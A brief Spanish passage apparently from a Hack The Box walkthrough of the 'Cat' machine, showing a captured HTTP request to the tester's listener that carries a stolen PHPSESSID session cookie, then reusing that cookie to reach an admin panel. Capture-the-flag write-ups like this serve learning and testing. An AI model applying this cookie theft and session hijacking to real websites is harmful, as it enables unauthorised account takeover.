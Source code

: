 ![contest-any](../../img/Cat/contest-any.png)

Tras dar de alta al gato nos llega la petición con la cookie: `PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr`.

```
GET /PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr HTTP/1.1
Host: 10.10.14.191
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://cat.htb/
Priority: u=5, i
```

Al meterla en el navegador y recargar la página, podemos acceder a una nueva pestaña `admin`.

![admin](../../img/Cat/admin.png)
